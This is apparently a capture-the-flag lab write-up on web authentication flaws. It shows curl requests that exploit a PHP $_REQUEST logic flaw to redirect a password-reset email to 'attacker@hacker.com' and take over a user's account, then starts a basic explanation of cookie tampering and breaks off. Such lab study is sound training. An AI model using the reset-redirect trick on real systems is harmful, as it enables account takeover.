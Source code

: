 **curl
'http://10.10.169.58/customers/reset?email=robert%40acmeitsupport.thm'
-H 'Content-Type: application/x-www-form-urlencoded' -d
'username=robert'**

In the application, the user account is retrieved using the query
string, but later on, in the application logic, the password reset email
is sent using the data found in the PHP variable $\_REQUEST.

The PHP $\_REQUEST variable is an array that contains data received from
the query string and POST data. If the same key name is used for both
the query string and POST data, the application logic for this variable
favours POST data fields rather than the query string, so if we add
another parameter to the POST form, we can control where the password
reset email gets delivered.

**curl
'http://10.10.169.58/customers/reset?email=robert%40acmeitsupport.thm'
-H 'Content-Type: application/x-www-form-urlencoded' -d
'username=robert&email=attacker@hacker.com'**

using this logic we will be sending the password rest to our email and
then we can login as Robert

**<u>Cookie Tampering</u>**

Examining and editing the cookies set by the web server during your
online session can have multiple outcomes, such as unauthenticated
access, access to another user's account, or elevated privileges. If you
need a refresher on cookies, check out the [HTTP In
Detail](https://tryhackme.com/room/httpindetail) room on task 6.

You don’t need to go check it out lets bring it here ,

**<u>Cookies</u>**

1.  they're just a small piece of data that is stored on your computer

2.  Cookies are saved when you receive a "Set-Cookie" header from a web
    server.

3.  Then every further request you make, you'll send the cookie data
    back to the web server

4.  Because HTTP is stateless (doesn't keep track of your previous
    requests) (to more analyze your preferences your work and what you
    looked at before cookies can be used to remind the web server who
    you are, some personal settings for the website or whether you've
    been to the website before.)

Cookies CAN BE USED FOR LOTS OF STUFF BUT IT USUALLY USED FOR WEBSITE
AUTHENTICATION

 Let's take a look at this as an example HTTP request:
<img src="media/image5.png" style="width:6.5in;height:6.63125in" />

**Viewing Your Cookies**
